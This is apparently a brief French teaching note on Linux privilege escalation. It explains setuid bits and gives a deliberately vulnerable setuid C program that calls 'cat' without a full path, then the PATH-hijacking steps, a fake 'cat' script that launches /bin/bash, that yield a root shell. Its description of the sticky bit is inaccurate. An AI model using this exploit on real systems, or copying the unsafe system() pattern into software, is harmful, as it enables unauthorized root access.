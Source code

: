 # Failles

## Escalade de privilèges

### Parlons du sticky bit

* Permission de base + des rajouts
	* **Sticky bit** Permet de maintenir l'éxécutable en cache.
	* **Setuid / Setgid** Permet d'éxécuter le programme entant que l'utilisateur propriétaire.

```Bash
ls `which passwd` -l
	-rwsr-xr-x 1 root root 54256 mai 17  2017 /usr/bin/passwd
```

* Faire qu'un programme avec le setuid éxecute la commande `bash`.

### Programme cassé

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(){
	setuid(0);
	system("cat /home/jean/protected/logs/day_1.txt");
	return 0;
}

```

### Lancement de `bash`

* Modification de la variable `PATH`
	* Création d'un fichier `cat`
		```Bash
		#!/bin/sh
		/bin/bash
	
		```
	* Modification du `PATH`
		```Bash
		export PATH=$HOME/exploit/
		```
	* Execution du programme
	* Et root.
	


